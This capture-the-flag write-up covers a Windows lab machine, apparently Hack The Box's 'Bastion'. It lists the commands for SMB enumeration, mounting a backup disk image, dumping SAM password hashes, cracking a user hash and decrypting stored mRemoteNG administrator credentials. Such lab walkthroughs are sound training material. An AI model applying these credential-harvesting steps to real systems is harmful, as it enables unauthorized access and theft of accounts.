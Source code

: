 ![](./Images/1.PNG)
##Intro 
Target: 10.10.10.134

It's a easy box and I will be using kali linux for solving this.
##Steps
####1. Info Gathering
First, Run a nmap scan to see open ports and services.
```
root@kali:~/CTF# nmap -sC -sV 10.10.10.134
```
And here are the results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-08 08:56 EDT
Nmap scan report for 10.10.10.134
Host is up (0.29s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m21s, deviation: 1h09m15s, median: 37s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-08T14:57:33+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-08T12:57:34
|_  start_date: 2019-09-08T11:52:23

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.28 seconds
```
From the open ports, It can be known that the box is a windows machine and we can see its servies. So lets jump right into the fun part. 

####2. Exploitation
There seem to nothing special.Let's try smb service for the port 445. For mb service exploitation in kali, we use smbmap, smbclient, enum4linux, etc.

Lets try smbclient:
```
smbclient -L 10.10.10.134
```
![](./Images/2.PNG)

With this tool we can see smb shares of this box without any password. Try accessing some shares by 
```smbclient -L //10.10.10.134/**insert sharename here**```. In this case, you can acces **Backups** :
```
root@kali:~/CTF# smbclient //10.10.10.134/Backups

```
![](./Images/3.PNG)

Voila! We got a shell now.So lets see what we have in here. Now lets see what twe got in there.

![](./Images/4.PNG)

Content of note.txt:
```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```
Now let's mount that backup folder.

```
mount -t cifs //10.10.10.134/Backups -o user=guest,password= mnt/backups
````
And we will see around what it has

```
root@kali:~/CTF/bastion/mnt/Backups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351# ls
9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
BackupSpecs.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
```
Now lets mount the VHD. VHD - Virtual Hard Drive 
```
guestmount --add /mnt/backups/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd
```
Now lets see whats around there

```
root@kali:CTF/bastion/mnt/vhd# ls -la           
total 2096745
drwxrwxrwx 1 root root      12288 Feb 22  2019  .
drwxr-xr-x 4 root root       4096 Sep  6 15:25  ..
drwxrwxrwx 1 root root          0 Feb 22  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24 Jun 11  2009  autoexec.bat
-rwxrwxrwx 1 root root         10 Jun 11  2009  config.sys
lrwxrwxrwx 2 root root         14 Jul 14  2009 'Documents and Settings' -> /mnt/vhd/Users
-rwxrwxrwx 1 root root 2147016704 Feb 22  2019  pagefile.sys
drwxrwxrwx 1 root root          0 Jul 14  2009  PerfLogs
drwxrwxrwx 1 root root       4096 Jul 14  2009  ProgramData
drwxrwxrwx 1 root root       4096 Apr 12  2011 'Program Files'
drwxrwxrwx 1 root root          0 Feb 22  2019  Recovery
drwxrwxrwx 1 root root       4096 Feb 22  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096 Feb 22  2019  Users
drwxrwxrwx 1 root root      16384 Feb 22  2019  Windows
```
As I could not find user.txt. So we do this now:
```
root@kali:~CTF/bastion/mnt/vhd# samdump2 ./SYSTEM ./SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
Now lets Drop that sweet hash ```26112010952d963c8dc4217daec986d9``` in hashcat or you can use some online tools to identify and decrypt the hash. I recommend using hashes.org.And we get the password for the user L4mpje-PC,Now lets login as that particular user in ssh.

![](./Images/5.PNG)

#### 3. Getting user flag
Fire up the terminal and using ssh login as L4mpje. So the sweet terminal is working and it's a childs play to get the hash so yeah.

![](./Images/6.PNG)

![](./Images/7.PNG)

Now let's proceed to privillege escalation **My favourite part**

#### 4. Privillege Escalation
After screwing around and raging, I found a intresting program installed by that particular user on appdata 'mRemoteNG'.So, after checking that out I found a confCons.xml and looked whats in it and voila I found the Administrator creds!! Lets drop that hash in a tool that some one has put it out for us. <a href="https://github.com/kmahyyg/mremoteng-decrypt/blob/master/mremoteng_decrypt.py"> mremoteng-decrypt </a>

![](./Images/8.PNG)

![](./Images/9.PNG)

![](./Images/10.PNG)

```
java -jar decipher_mremoteng.jar "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" 
```
Now we go the admin creds, Lets login and get the flag.  

![](./Images/11.PNG)

![](./Images/12.PNG)

# Easy peasy

